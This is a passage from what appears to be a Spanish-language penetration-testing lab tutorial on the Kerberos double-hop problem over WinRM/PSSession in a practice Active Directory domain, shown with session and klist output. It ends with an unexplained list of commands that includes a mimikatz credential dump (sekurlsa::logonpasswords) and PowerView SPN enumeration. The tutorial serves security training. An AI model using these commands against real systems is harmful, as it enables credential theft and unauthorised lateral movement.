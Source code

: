 
## Solución alternativa #2: Registre la configuración de PSSession

Hemos visto lo que podemos hacer para superar este problema al usar una herramienta como`evil-winrm`para conectarse a un host a través de WinRM. ¿Qué pasa si estamos en un host unido por dominio y podemos conectarme de forma remota con otro usando WinRM? O estamos trabajando desde un host de ataque de Windows y nos conectamos a nuestro objetivo a través de WinRM usando el[Enter-Pssession Cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)? Aquí tenemos otra opción para cambiar nuestra configuración para poder interactuar directamente con el DC u otros hosts/recursos sin tener que configurar un objeto PSCredential e incluir credenciales junto con cada comando (que puede no ser una opción con algunas herramientas).

Comencemos primero estableciendo una sesión WinRM en el host remoto.

  Problema de "doble salto" de Kerberos

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```

Si verificamos los boletos en caché usando`klist`Veremos que existe el mismo problema. Debido al problema de doble salto, solo podemos interactuar con los recursos en nuestra sesión actual, pero no podemos acceder al DC directamente usando PowerView. Podemos ver que nuestro TGS actual es bueno para acceder al servicio HTTP en el destino ya que nos conectamos a través de WinRM, que utiliza solicitudes SOAP (protocolo de acceso de objetos simples) en formato XML para comunicarse a través de HTTP, por lo que tiene sentido.

  Problema de "doble salto" de Kerberos

```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x11e387

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
       Start Time: 6/28/2022 9:09:19 (local)
       End Time:   6/28/2022 19:09:19 (local)
       Renew Time: 0
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x8 -> ASC
       Kdc Called:
```

Tampoco podemos interactuar directamente con el DC usando PowerView

  Problema de "doble salto" de Kerberos

```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname

Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
   + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
   + FullyQualifiedErrorId : DirectoryServicesCOMException
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname